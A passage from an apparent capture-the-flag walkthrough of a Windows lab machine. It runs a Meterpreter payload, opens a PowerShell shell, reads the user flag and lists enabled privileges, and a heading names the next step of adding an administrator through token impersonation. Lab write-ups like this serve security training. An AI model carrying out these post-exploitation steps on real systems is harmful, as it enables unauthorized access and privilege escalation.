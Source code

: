 Run met.exe on target CLI:

```shell
C:\Users\bruce\Desktop\met.exe
```

Load and get PowerShell on meterpreter:

```shell
load powershell
powershell_shell
```

Or use:

```shell
shell powershell
```


### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\bruce\Desktop\user.txt
```

# Privilege Escalation
### SeImpersonatePrivilege and SeDebugPrivilege - Using Incognito.exe to add a new local Administrator user and access using RDP
We can use whoami /priv to enumerate privileges:

```shell
whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```